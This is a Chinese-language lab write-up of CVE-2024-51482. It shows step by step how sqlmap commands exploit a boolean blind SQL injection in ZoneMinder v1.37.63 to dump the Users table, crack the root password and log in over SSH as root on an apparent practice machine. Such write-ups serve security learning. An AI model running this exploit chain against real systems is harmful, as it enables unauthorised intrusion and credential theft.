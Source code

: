 ```yaml
---
description: Easy - Linux / SQL注入 / ZoneMinder v1.37.63
---
```


# ✔️ CVE-2024-51482

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22 / 80

```bash
nmap -sC -sV -p- -oA cve51482 192.168.147.116 --open
```

<figure><img src="../../.gitbook/assets/1 (39).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现当前目标系统正在运行的软件及其版本号：**ZoneMinder v1.37.63**

<figure><img src="../../.gitbook/assets/2 (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (35).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据已得知的软件zoneminder v1.37.63，查找相关漏洞得知该版本的zoneminder有SQL布尔盲注漏洞：

<figure><img src="../../.gitbook/assets/4 (35).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (36).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 使用SQLmap进行注入测试：

```bash
sqlmap -u "http://192.168.147.116/zm/index.php?view=request&request=event&action=removetag&tid=1"
```

<figure><img src="../../.gitbook/assets/6 (38).png" alt=""><figcaption></figcaption></figure>

* 检测当前目标系统存在布尔盲注漏洞：

<figure><img src="../../.gitbook/assets/7 (36).png" alt=""><figcaption></figcaption></figure>

* 获取到db名：zm

```bash
sqlmap -u "http://192.168.147.116/zm/index.php?view=request&request=event&action=removetag&tid=1" --dbs
```

<figure><img src="../../.gitbook/assets/8 (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (33).png" alt=""><figcaption></figcaption></figure>

* 获取到tables名：

```bash
sqlmap -u "http://192.168.147.116/zm/index.php?view=request&request=event&action=removetag&tid=1" -D zm --tables
```

<figure><img src="../../.gitbook/assets/10 (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (30).png" alt=""><figcaption></figcaption></figure>

* 获取columns名：

```bash
sqlmap -u "http://192.168.147.116/zm/index.php?view=request&request=event&action=removetag&tid=1" -D zm -T Users --columns
```

<figure><img src="../../.gitbook/assets/13 (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (27).png" alt=""><figcaption></figcaption></figure>

* 获取users名：root

```bash
sqlmap -u "http://192.168.147.116/zm/index.php?view=request&request=event&action=removetag&tid=1" -D zm -T Users -C Username --dump
```

<figure><img src="../../.gitbook/assets/16 (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/17 (23).png" alt=""><figcaption></figcaption></figure>

* 获取password（哈希暴破），最终获取到用户名和密码：**root : killzone**

```bash
sqlmap -u "http://192.168.147.116/zm/index.php?view=request&request=event&action=removetag&tid=1" -D zm -T Users -C Password --dump
```

<figure><img src="../../.gitbook/assets/18 (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (23).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 利用有效凭证**root : killzone**进行ssh登录，获取到了shell：

```bash
ssh root@192.168.147.116
# 输密码：killzone
```

<figure><img src="../../.gitbook/assets/20 (20).png" alt=""><figcaption></figcaption></figure>
